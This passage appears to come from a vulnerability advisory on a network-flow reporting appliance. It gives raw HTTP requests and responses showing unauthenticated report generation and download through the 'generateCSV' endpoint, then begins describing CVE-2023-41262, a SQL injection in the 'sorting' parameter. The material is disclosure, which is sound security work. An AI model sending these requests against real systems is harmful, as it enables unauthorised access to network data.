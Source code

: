 ```http
POST /fcgi/scrut_fcgi.fcgi HTTP/1.1
Host: 192.168.1.240
Content-Length: 1381
Connection: close

rm=csvExportReport&action=generateCSV&rpt_obj={"id":0,"reportTypeLang":"internalExternalSrc","saved":{"name":"aaaaaaa","id":"1"},"filters":{"sdfDips_0":"in_GROUP_ALL"},"reportDirections":{"selected":"x"},"times":{"start":"1683739700","end":"1683739800","dateRange":"Custom"},"rateTotal":{"available":["rate","total"],"selected":"total"},"dataGranularity":{"selected":"auto"},"ipDns":{"selected":"DNS"},"dataFormat":{"selected":"normal"},"orderBy":"countdistinct_sourceipaddress","tableView":{"hidden_cols":["","dddd"],"sorting":"","inbound":{"query_limit":{"offset":0,"max_num_rows":"10"}},"outbound":{"query_limit":{"offset":0,"max_num_rows":"10"}},"maxNumRows":"10"},"graphView":{"types":{"selected":"step"},"graphStyle":{"default":"stacked","available":["stacked","unstacked"],"selected":"stacked"},"graphGranularity":{"default":"medium","available":["low","medium","high"],"sizes":{"low":60,"high":180,"medium":"120"},"seconds":600,"selected":"medium"},"showOthers":true,"colHasBbp":0},"saveGlow":false,"useServerTz":0,"bbp":{"selected":"percent"},"every_column":0,"break_out_by_interface":0,"useTotalsTables":0,"table_only":0,"alternative_time_column":"","dataMode":{"selected":"raw_flows"},"colHasOther":0}&data_requested=%7B%22table_name%22%3A%22xyz%22%7D&direction=inbound&filename=statusReport_aaaaaaa_internalExternalSrc_1683740222572_inbound.csv
```
***Unauthenticated Request to `generateCSV`***

```http
HTTP/1.1 200 OK

{"filename":"statusReport_aaaaaaa_internalExternalSrc_1683740222572_inbound.csv"}
```
***Server Response Returning File Name for the Generated Report***

After obtaining the file name, an unauthetnicated user can access the report file under the path `/csv/status/`:

```http
GET /csv/status/statusReport_aaaaaaa_internalExternalSrc_1683740222572_inbound.csv HTTP/1.1
Host: 192.168.1.240
Connection: close
```
***Unauthenticated Request to Download the Generated Report***

```http
HTTP/1.1 200 OK

"","Source","Unique Hosts","first_flow_epoch","last_flow_epoch",
"1","Internal","1.656 k","1683739740","1683739800",
"2","External","1.415 k","1683739740","1683739800",
```
***Server Response Containing Report Contents***

### CVE-2023-41262 - SQL Injection - csvExportReport

The `csvExportReport` endpoint action `generateCSV` is vulnerable to SQL injection through the `sorting` parameter, allowing an unauthenticated user to execute arbitrary SQL statements in the context of the application's backend database server. In the following request, the `sorting` parameter is assigned the `ATTACKER_CONTROLLED` value to demonstrate how that value propogates to a SQL statement executed on the application database server. 
